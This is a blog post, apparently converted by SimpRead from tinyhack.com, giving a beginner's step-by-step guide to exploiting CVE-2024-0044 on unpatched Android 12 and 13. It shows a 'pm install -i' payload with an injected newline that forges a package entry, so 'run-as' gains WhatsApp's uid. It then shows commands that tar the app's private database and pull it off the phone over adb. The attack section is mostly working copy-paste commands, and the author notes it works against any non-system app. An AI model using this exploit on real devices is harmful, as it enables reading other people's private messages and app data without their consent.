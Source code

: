 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [tinyhack.com](https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03)

> I want to make a WhatsApp message backup from a non-rooted Android 12 Phone. A few years ago, I used ......

I want to make a WhatsApp message backup from a non-rooted Android 12 Phone. A few years ago, I used [Whatsapp-Chat-Exporter](https://github.com/KnugiHK/Whatsapp-Chat-Exporter) to convert the backup to HTML, but first, I had to extract the database from the phone.

The method pointed out by Whatsapp-Chat-Exporter to extract from non-root has remained the same for many years: downgrade to an old version of WhatsApp that allows backup, then create an Android backup that contains the WhatsApp database.

This doesn’t work for WhatsApp for Business because there was no version that allowed backup. Depending on your use case, you might be able to move WhatsApp to a new device that can be rooted and then extract the files there (very easy when you have root access).

When looking at the new [Zygote Bug by Meta Red Team X](https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html) (CVE-2024-31317), I thought it could be used to perform backup extraction, but then I saw [the previous entry on that blog](https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html) (CVE-2024-0044), which is much easier to use (but only works in Android 12 and 13 that has not received Marh 2024 security update).

[![](https://tinyhack.com/wp-content/uploads/2024/06/image-5-1024x939.png)](https://tinyhack.com/wp-content/uploads/2024/06/image-5.png)CVE-2023-0044

This exploit can work for any non-system app, not just for extracting data from WhatsApp/WhatsApp business. For an expert, the explanation for the exploit is very obvious. I am writing here for end users or beginners who need a step-by-step guide to extracting their WA database.

Simple exploit
--------------

First, you will need to enable USB Debugging and allow installation of APK via USB. Prepare an APK; any APK is fine as long as it can be installed on your device (get an APK from [https://f-droid.org/](https://f-droid.org/)).

Push the APK file to the device, for example:

```
adb push F-Droid.apk /data/local/tmp/


```

[![](https://tinyhack.com/wp-content/uploads/2024/06/image-461x1024.png)](https://tinyhack.com/wp-content/uploads/2024/06/image.png)

The exploit is simple. First, we need to have the target uid for WhatsApp. Do `adb shell`, then from inside adb

```
pm list packages -U|grep com.wha


```

You will see something like this:

```
package:com.whatsapp.w4b uid:10374
package:com.whatsapp uid:10180


```

If you only have WhatsApp, you will only have the `com.whatsapp`, and if you only have WhatsApp for Business, you will only have `com.whatsapp.w4b`. Look at the UID (for example, 10180; this will differ on your phone).

Copy and paste this to Notepad, change the UID, and copy it to the clipboard.

```
PAYLOAD="@null
victim 10180 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk


```

Or download [this text file](https://tinyhack.com/files/cve-2024-0044.txt) (in case WordPress messes up the formatting).

Note that there is enter after `@null`, this is what the exploit is all about. Change the UID to match yours. The word `victim` can be replaced with any 1-word string.

You should see something like this:

[![](https://tinyhack.com/wp-content/uploads/2024/06/image-1-1024x214.png)](https://tinyhack.com/wp-content/uploads/2024/06/image-1.png)Note that when a new line after @null is pasted, it will show as > on the next line

Note that you only need to do this once.

Now we can run as WhatsApp user:

And we can start browsing the files (`ls`, `cat`, etc.). Unfortunately, in Android 13, I was unable to copy the files somewhere else (to `/sdcard/`, `/data/local/tmp`). But we can do this (but first, exit from `run-as` by `exit` or pressing `control-d`), then:

```
mkdir /data/local/tmp/wa/
touch /data/local/tmp/wa/wa.tar
chmod -R 0777  /data/local/tmp/wa/
run-as victim
tar -cf /data/local/tmp/wa/wa.tar com.whatsapp


```

And this is what it should look like:

[![](https://tinyhack.com/wp-content/uploads/2024/06/image-2-1024x254.png)](https://tinyhack.com/wp-content/uploads/2024/06/image-2.png)

Now we can exit adb (`exit` or `control-D`) back to the command line, and pull the data:

```
adb pull /data/local/tmp/wa/wa.tar


```

You can then extract the data using any app (the latest Windows can extract tar files, or you can use 7-Zip).

[![](https://tinyhack.com/wp-content/uploads/2024/06/image-3-1024x429.png)](https://tinyhack.com/wp-content/uploads/2024/06/image-3.png)

Now, you can get the databases from `databases` folder, and use [`Whatsapp-Chat-Exporter`](https://github.com/KnugiHK/Whatsapp-Chat-Exporter) to convert it to HTML.

Conclusion
----------

I hope this helps anyone who needs to extract data from their non-root phone.